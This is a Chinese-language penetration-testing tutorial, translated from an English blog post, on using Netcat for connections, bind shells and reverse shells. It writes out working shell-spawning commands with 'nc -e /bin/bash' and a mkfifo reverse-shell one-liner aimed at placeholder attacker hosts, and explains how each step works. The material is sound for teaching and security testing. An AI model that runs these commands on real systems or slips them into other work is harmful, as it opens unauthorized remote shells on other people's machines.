





# 使用 Netcat 创建绑定和反向 Shells

> 原文：<https://infosecwriteups.com/create-bind-and-reverse-shells-using-netcat-c53b23df8059?source=collection_archive---------1----------------------->

Netcat ( **nc** ， **ncat** ，或者有些人可能更喜欢称之为网络的瑞士军刀)是一个命令行实用程序，每个有自尊的 pentester 都应该随身携带。攻击者经常使用 Netcat 在目标机器上创建反向外壳。本文将介绍实现这一点的不同方法。

在开始之前，本文假设您对网络、计算机如何通信以及什么是端口和 IP 地址有基本的了解。如果这听起来像中文，那么你应该先学习一下计算机网络。Patchthenet 的入门[网络教程](https://patchthenet.com/computer-networking/)是一个很好的起点。

话虽如此，我们还是开门见山吧。



# Netcat 简介

**Netcat** 是一个命令行工具，用于建立 TCP 和 UDP 网络连接，并对它们进行读/写。

试图解释这个工具的不同应用将需要一整本书，而不仅仅是一篇文章。

因此，为了避免冗长的帖子让你厌烦，我们将在这里介绍 Netcat 在 Pentesting 和 Ethical Hacking 中的基本用法，因为这就是我们在这里的目的，对吗？

在最基本的层面上，Netcat 只是一个通过网络与两个节点之间的连接进行交互(读/写)的工具。

## 使用 Netcat 创建网络连接

为了在两个节点之间建立网络连接，其中一个节点需要监听特定的端口，而另一个节点启动到该端口的连接。

在第一个节点上，您可以通过运行以下命令来激活监听端口。

```
nc -l -p <Port-Number>
```

l 标志表示您正在监听模式下运行 Netcat。

您必须在-p 标志后指定一个数字，以指示 Netcat 将监听哪个端口。

一旦运行了上面的命令，节点将打开指定的端口并等待传入的连接。

我们现在可以转到第二台机器并启动与监听节点的连接。

为此，您可以运行以下命令:

```
nc <IP-Address> <Port-Number>
```

提供的 IP 地址应该是监听节点的 IP 地址，端口号与我们之前用-p 标志指定的端口号相同。

现在，为了用一个真实的例子演示它是如何工作的，我启动了两个终端，并键入我们刚刚学习的两个命令来模拟一个连接。结果如下:



对于 listener 命令，我们可以添加-v 标志，这将使 Netcat 更加冗长。这将在连接建立时显示一条消息，比黑屏更方便。

我们还可以添加-n 标志，这将告诉 Netcat 我们只处理 IP 地址，不需要 DNS 名称解析。这将使它更快。

通过组合所有这些标志，生成的侦听器命令将如下所示:

```
nc -lvnp <Port-number>
```

# 使用 Netcat 绑定和反转 Shells

现在我们已经对 Netcat 的工作原理有了一个概念，让我们花一点时间来讨论一些理论。

除非你是黑客或一般计算机科学的新手，否则你应该对 shell 有所了解。好吧，以防你不知道(这没什么不好意思的，我们都是来学习的)，这里有一个简短的定义。

一个 **shell** 基本上是任何一个从用户那里接受命令并把它们发送到操作系统层执行的程序。然后，它将这个执行的结果发送回用户。

Bash、cmd 和 Powershell 都是流行 shell 的例子。

作为 pentester，有时您会成功利用目标系统上的远程代码执行漏洞。现在，为了获得对该系统的初始访问权，您必须生成一个 shell，它将允许您在目标操作系统上交互式地运行命令。

要执行此操作，您将有两条路可走:**绑定**或**反向外壳**。

## 绑定外壳

生成 bind shell 要求您在目标系统上运行一个监听器，然后从您的机器上连接到该监听器。

建立连接的命令将与我们在上一节中看到的命令相同。

```
nc <IP-address> <Port-number>
```

但是，对于第二个命令，会有一点点不同。

```
nc -lvnp <Port-number> -e /bin/bash
```

当试图激活一个监听器时，`nc`命令会有另一个选项`-e`。当您使用此标志时，Netcat 将在建立连接后执行指定的命令。在这种情况下，我们提供了`/bin/bash`作为将要执行的命令。当连接建立后，这将在目标机器上给我们一个 bash shell。



注意，这个命令只在 Linux 系统中有效。在 Windows 的情况下，有必要进行小的调整。你可以简单地用`cmd.exe`代替`/bin/bash`。

## 反向外壳

在反向 shell 中，黑客往往比绑定 shell 使用得更多，攻击者将在他们的机器上运行一个监听器。然后，他们将通过在目标机器上运行命令来启动连接，该命令将连接回攻击者正在运行的侦听器。

要生成反向 shell，您应该首先在您的机器上运行一个简单的监听器。

```
nc -lvnp <Port-number>
```

另一方面，在目标机器上运行命令时，我们必须提供-e 选项。

```
nc <IP-address> <Port-number> -e /bin/bash
```

一旦我们运行上面的命令，我们应该在我们的机器上得到一个反向的 shell。



这里还是那句话，如果你针对的是 Windows 机器，可以用`cmd.exe`换`/bin/bash`。

## Mkfifo 和 Netcat 单行反向 Shell

在结束本文之前，我们应该讨论一个重要的命令。这是一个在黑客社区中非常流行的工具，经常被用来生成反向外壳。

有时，产生反向外壳的经典方法可能不起作用。当那发生时，你将不得不拿出大枪。这个一行程序会给你外壳，而其他人不会。你应该把它添加到你的测试库中，放在手边。

```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP-Address> <Port-number> >/tmp/f
```

不要每次需要这个命令的时候都在不知道它如何工作的情况下复制并粘贴它，了解它如何工作以及为什么工作不是很好吗？好吧，如果你同意，那么这就是我们将要在这一部分讨论的内容。

我们可以将这一行分解为 3 个命令:

*   rm -f /tmp/f
*   mkfifo /tmp/f
*   cat/tmp/f |/bin/sh-I 2 > & 1 | NC<ip-address><port-number>>/tmp/f</port-number></ip-address>

**我们来分解一下**

现在，第一个命令很简单。如果文件/tmp/f 已经存在，它只是删除它。

接下来，我们使用命令 *mkfifo* 创建一个命名管道。一个**命名管道**(或 FIFO 文件)基本上是一个多个进程可以读写的文件。因此，当进程需要交换数据时，可以使用它。

然后，我们进入最后一个也是最有趣的命令:`cat /tmp/f|/bin/sh -i 2>&1|nc <IP-Address> <Port-Number> > /tmp/f`

该命令将首先读取前一个命令创建的 FIFO 文件的内容(`cat /tmp/f`)，并将其内容发送到`/bin/sh -i`。这将执行文件`/tmp/f`中的任何命令。

然后， *stderr* 将被重定向到 *stdout* ，这是由命令的`2>&1`部分暗示的。换句话说，这将把命令生成的任何错误重定向到标准输出。

在下一步中，Netcat 将把它从前面的命令中接收到的标准输出发送到具有给定 IP 地址和给定端口的主机:`nc <IP-Address> <Port-Number>`。当然，这假定有一台具有该 IP 地址的主机正在侦听该端口。

最后，netcat 将把它从远程主机接收到的任何数据发送到 FIFO 文件`> /tmp/f`。

然后，通过读取/tmp/f，使用/bin/sh 运行其内容，以此类推，循环再次开始

为了使这个过程更加清晰，我绘制了一幅图，展示了使用这个命令生成反向 shell 时会发生什么。这里，我们假设攻击者在反向 shell 上运行命令 *whoami* 。



# 结论

我们已经到了这篇文章的结尾。我们已经学习了如何使用 Netcat，什么是绑定和反向 shells，如何使用 Netcat 创建它们，最后，我们分解了 mkfifo netcat 一行程序。现在，Netcat 对你来说应该不再是一个谜了。

*原载于 2022 年 4 月 18 日*[*【https://patchthenet.com】*](https://patchthenet.com/articles/create-bind-and-reverse-shells-using-netcat/)*。*